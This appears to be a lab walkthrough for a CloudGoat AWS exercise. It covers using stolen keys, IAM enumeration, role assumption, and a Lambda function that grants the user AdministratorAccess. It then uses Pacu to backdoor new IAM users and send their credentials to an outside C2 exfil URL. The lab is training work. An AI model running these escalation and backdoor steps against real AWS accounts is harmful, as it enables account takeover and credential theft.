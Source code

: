 



Start attack
============

At this point we have created vulnerable infrastructure in AWS using
Cloudgoat. Starting as an anonymous outsider with no access or
privileges.

- Create a new aws profile with scenarios stolen credentials

.. code:: console

    aws configure --profile chris

-  Set the ``AWS Access Key ID`` and ``AWS Secret Access Key`` using the
   stolen chris credentials (Chris was created by Cloudgoat)

-  Set the “Default region” to ``us-east-1`` and the “Default output” format to
   ``json``

- Do discovery to find the username associated with the access key

.. code:: console

    aws sts get-caller-identity --profile chris

- With the username list all user policies and copy the policy ARN to your text file

.. code:: console

    aws iam list-attached-user-policies --user-name <associated user name> --profile chris

.. figure:: ./images/SetupInfra.png
   :alt: SetupInfra

- Get current version of the policy using the ARN from the previous step

.. code:: console

    aws iam get-policy-version --policy-arn <ARN> --version-id v1 --profile chris 

The policy allows the user to assume and list roles

.. figure:: ./images/GetPolicy.png
   :alt: GetPolicy

- List the roles and copy the ``Role Name`` and ``ARN`` of the role name to your text file

.. code:: console

    aws iam list-roles --profile chris | grep cg-debug-role-lambda 
    
.. code:: console

    aws iam list-roles --profile chris | grep cg-lambdaManager-role-lambda 

- Use the role name output to list the attached policies and copy the ``Policy Name`` and ``ARN`` output to your text file

.. code:: console
   
    aws iam list-attached-role-policies --role-name <debug role name> --profile chris
    
.. code:: console

    aws iam list-attached-role-policies --role-name <lambda manager role name> --profile chris

.. figure:: ./images/ListRolePolicies.png
   :alt: ListRolePolicies

- From that output you can see
   - ``cg-debug-role-lambda_privesc`` can be assumed by a Lambda
   - ``cg-lambdaManager-role-lambda_privesc`` can be assumed by your user

- Let’s get the polices attached to the role we can assume

.. code:: console

    aws iam get-policy-version --policy-arn <lambdaManager policy ARN> --version-id v1 --profile chris

- From the output we can see the role has Lambda admin permissions

Create Lambda Function 
======================

To assume the role you will need the role ARN for cg-lambdaManager-role-lambda.  If you need it again you can run ``aws iam list-roles --profile chris | grep cg-lambdaManager-role-lambda``

- Assume the role

.. code:: console

    aws sts assume-role --role-arn <Lambda Manager Role ARN> --role-session-name lambdaManager --profile chris

- When you assume the role new security credentials displayed.  You will need these to setup a new profile so copy them to your text tile 

.. figure:: ./images/AssumeLambdaManagerRole.png
   :alt: AssumeLambdaManagerRole

- Create a new AWS profile

.. code:: console

     aws configure --profile lambdaManager

-  Set the ``AWS Access Key ID`` and ``AWS Secret Access Key`` using the
   assumed role credentials 

-  Set the “Default region” to ``us-east-1`` and the “Default output” format to
   ``json``

-  Manually add the ``aws_session_token`` to the aws credentials file
   (use i for insert mode then esc :wq to save and close)

.. code:: console

     vi  ~/.aws/credentials

.. figure:: ./images/LambdaManagerKey.png
   :alt: LambdaManagerKey

- Create new file

.. code:: console 

     touch lambda_function.py && vi lambda_function.py

- Add contents to new file and update with your discovered username ``aws sts get-caller-identity --profile chris``

.. code:: python

    import boto3
    def lambda_handler(event, context):
            client = boto3.client('iam')
            response = client.attach_user_policy(UserName = '<username>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
            return response

- Zip the file 

.. code:: console

    zip -q lambda_function.py.zip lambda_function.py


- Deploy and assign the Lambda function with the Lambda admin role.  This is the ARN from ``cg-debug-role-lambda_privesc`` discovered in a previous step by running ``aws iam list-roles --profile chris | grep cg-debug-role-lambda``

.. code:: console

    aws lambda create-function --function-name admin_function-<initials> --runtime python3.6 --role <Role ARN> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdaManager

- Invoke the new function 

.. code:: console

   aws lambda invoke --function-name admin_function-<initials> out.txt --profile lambdaManager

- Test privilege escalation user policy was applied.

.. code:: console

    aws iam list-attached-user-policies --user-name <username> --profile chris

.. figure:: ./images/ListAttachedPolicies.png
   :alt: ListAttachedPolicies

Serverless Persistence
======================
For this part of the attack we will use Pacu


-  Start pacu from the shell session by running ``~/pacu/cli.py``
-  Create new session in pacu named ``chris``
-  Add the keys from your AWS profile using ``import_keys chris``
-  List the Lambda functions with ``run lambda__enum``

.. figure:: ./images/LambdaEnum.png
   :alt: LambdaEnum

Create persistence with Lambda that creates a backdoor IAM user credentials.  This will require 2 inputs which you will need prior to proceeding
   - Role ARN from previous attack ``aws iam list-roles --profile chris | grep cg-debug-role-lambda``
   - exfil-url ``https://commander-api.vectratme.com/adduser``

Once you have the above values run the below in pacu.  You will be prompted for the ARN.

.. code:: console

    run lambda__backdoor_new_users --exfil-url https://commander-api.vectratme.com/adduser

.. figure:: ./images/LambdaBackdoor.png
   :alt: LambdaBackdoor
   
Persistence has been set. Lets create a new user to test it (you don't need to leave pacu)

.. code:: console
    
    aws iam create-user --user-name <initials> --profile chris

Now let’s visit our C2 site https://commander.vectratme.com/ to verify.  You will need a logon provided by Vectra.

.. figure:: ./images/C2Server.png
   :alt: C2


